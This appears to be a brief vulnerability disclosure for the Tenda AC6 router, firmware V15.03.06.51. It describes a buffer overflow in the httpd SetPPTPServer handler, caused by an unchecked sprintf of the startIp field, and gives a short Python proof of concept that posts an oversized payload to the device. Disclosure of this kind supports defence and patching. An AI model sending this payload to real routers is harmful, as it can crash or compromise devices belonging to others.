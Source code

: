 # buff overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buff overflow in httpd/SetPPTPServer

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](6.png)

get value from startIp ,then call sprintf, cause buff overflow

![](7.png)


## POC
```
url = "http://192.168.1.13/goform/SetPPTPServer"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'startIp': payload})
``` 
